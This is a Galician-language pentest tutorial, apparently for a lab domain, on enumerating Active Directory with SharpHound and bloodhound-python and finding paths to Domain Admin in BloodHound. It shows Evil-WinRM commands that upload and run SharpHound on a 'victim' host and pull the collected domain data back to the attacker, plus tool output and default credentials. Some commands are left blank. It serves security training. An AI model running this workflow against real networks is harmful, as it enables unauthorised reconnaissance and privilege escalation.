

Enumeración de Active Directory (AD) con SharpHound/BloodHound
1. Introdución
SharpHound e BloodHound son ferramentas complementarias deseñadas para analizar e visualizar a configuración de seguridade en entornos de Active Directory (AD). Permiten identificar rutas de ataque, escalada de privilexios e relacións entre obxectos de AD que poden ser explotadas.
1.1. Ferramentas de recolección de datos
Existen dúas opcións principais para recopilar datos de Active Directory:
1. SharpHound (Executable .NET para Windows)
- Execútase: Na máquina vítima (Windows) con acceso directo
- Vantaxes: Recolle máis información, incluíndo sesións activas
- Saída: Xera un ficheiro ZIP
- Cando usar: Cando xa temos acceso á máquina Windows (shell/WinRM)
2. bloodhound-python (Script Python para Linux)
- Execútase: Na máquina atacante (Kali Linux) de forma remota
- Vantaxes: Non require upload de ferramentas nin acceso directo á máquina
- Saída: Xera ficheiros JSON directamente
- Cando usar: Cando só temos credenciais válidas pero non shell na máquina
- Limitación: Non recolle sesións activas
BloodHound: Plataforma de análise
Os datos recompilados por calquera das dúas ferramentas anteriores (SharpHound ou bloodhound-python) procésanse e visualízanse mediante BloodHound, unha plataforma de análise que se executa na máquina atacante (Kali Linux). BloodHound permite visualizar graficamente as relacións e camiños de ataque dispoñibles no dominio de Active Directory.
1.2. Recomendación: Que ferramenta usar?
| Situación | Ferramenta recomendada | Razón |
|---|---|---|
| Tes shell/WinRM na máquina Windows | SharpHound | Máis información (sesións activas) |
| Só tes credenciais válidas | bloodhound-python | Non require acceso directo |
| Queres evitar detección | bloodhound-python | Sen upload de executables |
| Precisas datos completos de sesións | SharpHound | Única opción que recolle sesións |
Diferenzas entre SharpHound e bloodhound-python
SharpHound (Windows):
- Executable .NET para Windows
- Require acceso directo á máquina
- Recóllese máis información (sesións activas)
- Xerase ficheiro ZIP
bloodhound-python (Linux):
- Script Python para Linux
- Traballa remotamente mediante LDAP
- Non require acceso á máquina
- Xera ficheiros JSON directamente
- Non recolle sesións activas
Vantaxes de bloodhound-python:
- Execútase desde Kali
- Non require upload de ferramentas
- Útil cando non temos shell
- Ideal para enumeración sen detección
1.3. Fluxos de traballo
Opción A: Usando SharpHound (con acceso á máquina)
1. Máquina atacante: Descargar e preparar SharpHound
2. Máquina vítima: Subir e executar SharpHound para recompilar datos de AD
3. Máquina vítima → Máquina atacante: Descargar o ficheiro ZIP xerado
4. Máquina atacante: Instalar, configurar e executar BloodHound
5. Máquina atacante: Importar e analizar os datos en BloodHound
Opción B: Usando bloodhound-python (sen acceso á máquina)
1. Máquina atacante: Executar bloodhound-python con credenciais válidas
2. Máquina atacante: Recoller ficheiros JSON xerados
3. Máquina atacante: Instalar, configurar e executar BloodHound
4. Máquina atacante: Importar e analizar os datos en BloodHound
2. Recolección de datos
Opción A: Recolección con SharpHound
2.1. Preparación de SharpHound
Máquina atacante (Kali Linux)
-
Descargar SharpHound desde GitHub
-
Descomprimir
2.2. Upload de SharpHound á máquina vítima
Máquina vítima (Windows)
Desde unha consola winrm (por exemplo, Evil-WinRM), subir SharpHound.exe desde a máquina atacante á máquina vítima:
*Evil-WinRM* PS C:\Users\[usuario]\Documents> upload /home/kali/Downloads/SharpHound.exe
Info: Uploading /home/kali/Downloads/SharpHound.exe to C:\Users\[usuario]\Documents\SharpHound.exe
Data: 1753768 bytes of 1753768 bytes copied
Info: Upload successful!
2.3. Execución de SharpHound
Máquina vítima (Windows)
Desde a máquina vítima, dentro da consola winrm, executar SharpHound para recoller todos os datos de AD:
*Evil-WinRM* PS C:\Users\[usuario]\Documents> .\SharpHound.exe -c All
2025-11-12T10:33:09.1234567-00:00|INFORMATION|This version of SharpHound is compatible with the 5.0.0 Release of BloodHound
2025-11-12T10:33:09.2345678-00:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2025-11-12T10:33:09.3456789-00:00|INFORMATION|Initializing SharpHound at 10:33 AM on 11/12/2025
2025-11-12T10:33:09.4567890-00:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2025-11-12T10:33:09.5678901-00:00|INFORMATION|Beginning LDAP search for control.nyx
2025-11-12T10:33:09.6789012-00:00|INFORMATION|Producer has finished, closing LDAP channel
2025-11-12T10:33:09.7890123-00:00|INFORMATION|LDAP channel closed, waiting for consumers
2025-11-12T10:33:40.1234567-00:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 38MB RAM
2025-11-12T10:34:09.2345678-00:00|INFORMATION|Consumers finished, closing output channel
Closing writers
2025-11-12T10:34:09.3456789-00:00|INFORMATION|Output channel closed, waiting for output task to complete
2025-11-12T10:34:09.4567890-00:00|INFORMATION|Status: 103 objects finished (+103 1.030)/s -- Using 43MB RAM
2025-11-12T10:34:09.5678901-00:00|INFORMATION|Enumeration finished in 00:01:00.0123456
2025-11-12T10:34:09.6789012-00:00|INFORMATION|Saving cache with stats: 59 ID to type mappings.
0 name to SID mappings.
1 machine sid mappings.
3 sid to domain mappings.
0 global catalog mappings.
2025-11-12T10:34:09.7890123-00:00|INFORMATION|SharpHound Enumeration Completed at 10:34 AM on 11/12/2025! Happy Graphing!
Ficheiro ZIP xerado: 20251112103309_BloodHound.zip
2.4. Descarga do ficheiro ZIP á máquina atacante
Máquina vítima → Máquina atacante
Desde a máquina vítima, descargar á máquina atacante o ficheiro ZIP conseguido por SharpHound con datos para importar en BloodHound:
*Evil-WinRM* PS C:\Users\[usuario]\Documents> download 20251112103309_BloodHound.zip
Info: Downloading C:\Users\[usuario]\Documents\20251112103309_BloodHound.zip to 20251112103309_BloodHound.zip
Info: Download successful!
Opción B: Recolección con bloodhound-python
2.6. Execución de bloodhound-python
Máquina atacante (Kali Linux)
Desde a máquina atacante tamén podemos recoller datos se temos credenciais dun usuario do dominio. Para iso, empregamos bloodhound-python:
Ficheiros JSON xerados:
- computers.json
- domains.json
- groups.json
- users.json
- containers.json
Diferenza de saída
Con SharpHound obtemos un arquivo ZIP único, mentres que con bloodhound-python obtemos múltiples arquivos JSON que deberemos subir individualmente a BloodHound (ou todos de vez).
4. Instalación e configuración de BloodHound
4.1. Instalación de paquetes necesarios
Máquina atacante (Kali Linux)
-
Actualizar sistema
-
Instalar Neo4j
-
Instalar BloodHound
4.2. Configuración de Java 11
-
Ver versións de Java dispoñibles
-
Seleccionar Java 11
Escoller selección 1 (/usr/lib/jvm/java-11-openjdk-amd64/bin/java)
There are 2 choices for the alternative java (providing /usr/bin/java).
Selection Path Priority Status
------------------------------------------------------------
* 0 /usr/lib/jvm/java-21-openjdk-amd64/bin/java 2111 auto mode
1 /usr/lib/jvm/java-11-openjdk-amd64/bin/java 1111 manual mode
2 /usr/lib/jvm/java-21-openjdk-amd64/bin/java 2111 manual mode
Press <enter> to keep the current choice[*], or type selection number: 1
4.3. Inicio de Neo4j
- Iniciar servizo Neo4j
Deixar esta terminal aberta e abrir outra terminal
4.4. Configuración inicial de BloodHound
- Primeira execución de BloodHound:
Proceso de configuración inicial:
It seems it's the first time you run bloodhound
Please run bloodhound-setup first
Do you want to run bloodhound-setup now? [Y/n] Y
[*] Starting PostgreSQL service
[*] Creating Database
[*] Starting neo4j
Neo4j is running at pid 5416
[i] You need to change the default password for neo4j
Default credentials are user:neo4j password:neo4j
[!] IMPORTANT: Once you have setup the new password, please update /etc/bhapi/bhapi.json with the new password before running bloodhound
opening http://localhost:7474/
- Cambiar contrasinal de Neo4j:
A. Ábrese navegador en http://localhost:7474/
B. Login con: neo4j / neo4j

C. Cambiar contrasinal (exemplo: abc123.)

- Actualizar configuración de BloodHound:
A. Editar ficheiro de configuración
B. Modificar o campo neo4j.secret:
4.5. Reinicio e posta en marcha final
-
Parar procesos
-
Iniciar Neo4j en background
-
Iniciar BloodHound
4.6. Acceso á interface web
Interface web de BloodHound:
Ábrese automaticamente en: http://127.0.0.1:8080/ui/login
-
Login con:
admin/admin

-
Cambiar contrasinal na primeira autenticación
- Requisitos: mínimo 8 caracteres, maiúsculas, minúsculas, números


5. Importación de datos en BloodHound
5.1. Subir datos á plataforma
Máquina atacante (Kali Linux)
Na interface web:
-
Click en "Upload Data" (icona de nube arriba á dereita)
-
Segundo a ferramenta usada:
- SharpHound: Seleccionar ficheiro
20251112103309_BloodHound.zip - bloodhound-python: Seleccionar todos os ficheiros JSON xerados (pódense subir todos á vez)

-
Ou arrastralos directamente á interface

-
Esperar a que se procesen os datos (1-2 minutos)
6. Análise e exploración con BloodHound
No exemplo empregado...
[DOMAIN]=CONTROL.NYX
[usuario]=[USUARIO]=Usuario do dominio
6.1. Buscar obxectos específicos
Máquina atacante (Kali Linux)
Buscar usuario [usuario]:
-
Na barra de busca: escribir
user:[usuario]

-
Seleccionar nodo [USUARIO]@[DOMAIN]

-
Botón dereito → Set as Starting Node

6.2. Identificar camiños de ataque
Buscar camiños a Domain Admin:
-
Seleccionar "Pathfinding" no menú lateral
-
En "Destination Node" escribir:
ADMINISTRATOR@[DOMAIN]

Ruta identificada:
